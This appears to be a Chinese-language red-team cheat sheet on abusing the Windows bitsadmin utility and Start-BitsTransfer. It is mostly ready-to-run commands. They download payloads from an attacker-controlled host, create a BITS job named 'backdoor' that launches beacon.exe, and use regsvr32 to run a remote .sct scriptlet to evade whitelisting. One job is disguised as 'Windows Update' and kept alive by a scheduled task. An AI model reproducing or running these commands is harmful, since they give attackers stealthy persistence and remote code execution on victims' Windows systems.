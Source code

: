 #### 下载方式

##### Cmd

```cmd
bitsadmin /transfer backdoor /download /priority high http://IP:Port/Filename <path to executable>
```

##### PowerShell

```powershell
Start-BitsTransfer -Source "http://IP:Port/Filename" -Destination "<path to executable>"
```

#### 利用方法

将文件写入磁盘后，可以通过从“ **bitsadmin** ”实用程序执行以下命令来实现持久化

1. 创建参数需要作业的名称
2. addfile需要文件的远程位置和本地路径
3. SetNotifyCmdLine将执行的命令
4. SetMinRetryDelay定义回调的时间（以秒为单位）
5. resume参数将运行位作业。

```cmd
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://IP:Port/Filename"  "<path to executable>"
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\beacon.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor
```

##### SetNotifyCmdLine

**SetNotifyCmdLine** 参数还可用于通过[regsvr32](https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/)实用程序从远程位置执行 scriptlet。这种方法的好处是不接触磁盘，可以绕过白名单

```cmd
# Usage
bitsadmin /setnotifycmdline <job> <program_name> [program_parameters]
bitsadmin /resume backdoor

# 创建一个新的Job,命名为Windows Update
bitsadmin /Create "Windows Update"

# 指定一个下载任务和下载的地址
bitsadmin /AddFile "Windows Update" "http://192.168.19.129:8080/hXvPWuHBr.sct" "C:\scrobj.dll"

# 设置触发事件的条件
bitsadmin /SetNotifyFlags "Windows Update" 1

# 设置作业完成数据传输或作业进入状态将运行的命令行程序
bitsadmin /SetNotifyCmdLine "Windows Update" "%COMSPEC%" "cmd.exe /c bitsadmin.exe /complete \"Windows Update\" && start /B regsvr32 /s /n /u /i:http://192.168.19.129:8080/hXvPWuHBr.sct scrobj.dll"

# 设置下载任务出错时重传的延迟
bitsadmin /SetMinRetryDelay "Windows Update" 60

# 添加自定义的HTTP头
bitsadmin /SetCustomHeaders "Windows Update" "Caller:%USERNAME%@%COMPUTERNAME"

# 激活新的任务
bitsadmin /Resume "Windows Update" 

# 使用schtasks命令建立计划任务来加载bitsadmin执行”Windows Update“
schtasks /Create /TN "Windows Update" /TR "%WINDIR%\system32\bitsadmin.exe /resume \"Windows Update\"" /sc minute /MO 30 /ED(此任务的最后一次运行时间) 2023/08/30 /ET 00:00(最后一次的运行时间) /Z(在任务运行完毕后删除任务) /IT(标志此任务只有在登录情况下才运行) /RU %USERNAME%(指定运行的用户账户)  
```